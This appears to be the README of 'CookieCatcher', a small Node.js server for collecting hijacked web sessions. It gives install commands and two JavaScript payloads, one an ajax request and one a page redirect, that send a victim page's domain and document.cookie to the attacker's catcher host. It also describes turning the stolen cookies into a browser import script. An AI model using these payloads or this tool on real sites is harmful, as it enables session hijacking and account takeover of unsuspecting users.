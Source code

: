 # CookieCatcher (v 0.0.1)
This is a mini and simple API REST for management of Web sessions that were hijacked.

<center><img src="http://2.bp.blogspot.com/-1H9hR_zOsP8/VTflh5wSpEI/AAAAAAAAAPs/MoLPDkpRRuI/s1600/Screen%2BShot%2B2015-04-22%2Bat%2B1.18.09%2BPM.png"></center>

### Features (that is simple)
- Capture request through GET, POST, HEAD, OPTIONS, DELETE, PUT or PATCH (methods)
- Parse to cookies format
- Create script to import into your browser



### How to install this little devil?
##### Require
 - nodejs 0.10+

```sh
$ git https://github.com/JavaGarcia/CookieCatcher.git
$ cd CookieCatcher
$ npm install
$ sudo DEBUG=APIcookies:* ./bin/www
```

### Scheme to send requests
Example with ajax (POST or GET)
```javascript
$.ajax({
        type: "POST",//or GET
        url: "http://cookieCatcher/session",//obviously change (cookieCatcher).
        data:"domain="+document.domain+"&cookie="+document.cookie,
        success: function(datos){/*if you want to show something.*/}
});
```
Normal request GET (redirect)
```javascript
document.location.href="http://cookieCatcher/session/"+document.domain+"/"+document.cookie;
```
You can see the file: example.html

### Made with :heart: in Colombia.
# License:

CookieCatcher is licensed under the GPLv3: http://www.gnu.org/licenses/gpl-3.0.html. 

